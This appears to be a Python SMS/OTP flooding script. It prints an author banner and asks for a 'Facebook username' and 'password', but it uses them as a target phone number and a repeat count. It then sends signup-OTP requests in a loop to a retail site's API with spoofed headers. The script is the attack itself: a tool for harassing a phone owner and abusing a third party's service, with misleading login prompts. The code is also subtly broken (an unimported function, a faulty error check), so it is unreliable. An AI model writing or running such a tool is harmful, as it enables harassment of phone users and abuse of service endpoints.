 import json
import requests
import os
import sys


def main():
	os.system('clear')
	os.system('figlet jankontohodd')
	banner='''
	[+]AUTHOR:Jank Ontohodd
	[+]Facebook : Jank Ontohodd
	'''
	print(banner)
	username = input(' PI Enter Your Facebook username : ')
	passwd = getpass(' Enter Your Facebook password : ')


	head = {
	"User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
	"Referer": "https://www.mapclub.com/en/user/signup",
	"Host": "cmsapi.mapclub.com",
	}


	dat = {
	'phone': username
	}

	for x in range (int(passwd)):
		leosureo = requests.post("https://cmsapi.mapclub.com/api/signup-otp", headers=head, json=dat)
		if 'eror' in leosureo:
			print('gagal Mengirim ' + username)

		else:
			print('succes mengirim ' + username)



main()

